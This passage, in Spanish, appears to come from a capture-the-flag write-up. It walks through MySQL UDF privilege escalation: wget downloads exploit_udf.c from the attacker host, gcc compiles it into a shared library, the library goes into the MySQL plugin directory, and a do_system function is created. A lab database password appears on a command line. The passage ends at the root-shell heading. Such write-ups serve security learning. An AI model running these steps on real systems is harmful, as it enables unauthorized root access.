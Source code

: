 - La función `do_system` será la encargada de ejecutar el comando que enviemos como argumento
- Dentro de esta función se hace un llamado a `system()`, que intenta ejecutar en el sistema la cadena que enviamos

Como ya lo tengo en mi máquina atacante, podemos directamente compartirlo en la red y descargarlo en la máquina víctima

~~~ bash
designer@0749e50021a5:/tmp$ wget http://172.17.0.1/exploit_udf.c
--2025-03-10 06:26:28--  http://172.17.0.1/exploit_udf.c
Connecting to 172.17.0.1:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3281 (3.2K) [text/x-csrc]
Saving to: ‘exploit_udf.c’

exploit_udf.c                                 100%[=================================================================================================>]   3.20K  --.-KB/s    in 0s      

2025-03-10 06:26:28 (212 MB/s) - ‘exploit_udf.c’ saved [3281/3281]
~~~


### Compiling Exploit

Ahora procedemos a compilar este código en C para convertirlo en una librería dinámica y cargarlo en `mysql`

~~~ bash
designer@0749e50021a5:/tmp$ gcc -g -c exploit_udf.c

designer@0749e50021a5:/tmp$ gcc -g -shared -Wl,-soname,exploit_udf.so -o exploit_udf.so exploit_udf.o -lc 

designer@0749e50021a5:/tmp$ ls
exploit_udf.c  exploit_udf.o  exploit_udf.so
~~~

Movemos la librería al directorio donde se almacenan los `plugins` para que `msyql` pueda cargarla

~~~ bash
designer@0749e50021a5:/tmp$ mv exploit_udf.so /usr/lib/mysql/plugin/
~~~

Ahora nos conectamos a `mysql` y creamos una función que haga referencia a la librería que hemos agregado **(mismo nombre del archivo)** usando la base de datos `mysql`

~~~ bash
designer@0749e50021a5:/tmp$ mysql -u admin -p'PassAdmin123-'
MariaDB [(none)]> use mysql;

MariaDB [(none)]> CREATE FUNCTION do_system RETURNS STRING SONAME 'exploit_udf.so';
Query OK, 0 rows affected (0.002 sec)
~~~


## Root Time - Shell as `root`
